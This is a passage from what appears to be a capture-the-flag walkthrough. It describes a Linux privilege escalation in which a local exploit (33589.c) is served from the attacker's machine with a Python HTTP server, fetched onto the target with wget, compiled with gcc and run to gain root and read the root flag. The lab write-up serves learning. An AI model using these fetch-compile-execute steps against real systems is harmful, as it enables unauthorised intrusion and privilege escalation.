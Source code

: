 For Python 2.x we'll use `python -m SimpleHTTPServer 8088`.
For Python 3.x we'll use `python3 -m http.server`.

We can access the C file from our target using active shell session. It's best to first change into a directory we're sure we have execution permission. For example - `cd /tmp`.

Now pull the file using `wget http://10.0.0.4:8088/33589.c` command to download the file. Make sure you specify the relevant port according to the one provided in the Python script

```console
--2020-06-15 15:47:58--  http://10.0.0.4:8088/33589.c
Connecting to 10.0.0.4:8088... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3664 (3.6K) [text/plain]
Saving to: `33589.c'

     0K ...                                                   100%  861M=0s

2020-06-15 15:47:58 (861 MB/s) - `33589.c' saved [3664/3664]
```

Now we need to [compile](https://en.wikipedia.org/wiki/Compiler) this C file into an executable file to run on the target machine. [gcc](https://gcc.gnu.org/) is a simple to use compiler installed on almost every Linux distribution:
`gcc 33589.c -O2 -o ./exploit` where:
* `-O2` is Uppercase O and the number 2
* `-o` for the output file and we provide the required location and file name.
I've encountered the following error:
`gcc: error trying to exec 'cc1': execvp: No such file or directory`
Quick Google search revels we're not the first to encounter this issue and a quick fix is to run the following command which adds the gcc required PATH:
`export PATH=/usr/lib/gcc/x86_64-linux-gnu/4.6:$PATH`
Re-run the `gcc` command and now there's no output, which means, in our case, the command finished with no errors. Quick `ls` command reveals the new executable (called "exploit"):
```console
33589.c
KnQrX
exploit
vmIxd
```

Now we can execute it, providing "localhost" parameter as this is the host we want to exploit:
`./exploit localhost`

[`whoami`](https://en.wikipedia.org/wiki/Whoami) command verifies we now have root access. Last step is to get the flag from `/root` path:
```console
$ cat /root/root.txt
[REDUCTED]
```


# Summary
* Pay attention to small details such as the CVE number in the HTTP header.
* Google-Fu - Google is a great source of knowledge once (not if!) you face an issue.
